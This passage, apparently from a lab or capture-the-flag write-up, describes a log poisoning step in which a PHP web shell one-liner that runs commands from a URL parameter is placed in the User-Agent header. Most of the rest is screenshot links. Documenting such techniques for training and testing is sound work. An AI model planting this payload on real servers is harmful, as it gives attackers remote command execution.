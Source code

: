![Pasted image 20250218224640.png](../../../IMAGES/Pasted%20image%2020250218224640.png)

And it indeed works, now, next step we need to do is log poisoning, we need to change the `User-Agent` to this:

```php
<?php system($_GET["cmd"]); ?>
```

Now, let's send the request like this:

![Pasted image 20250218225147.png](../../../IMAGES/Pasted%20image%2020250218225147.png)

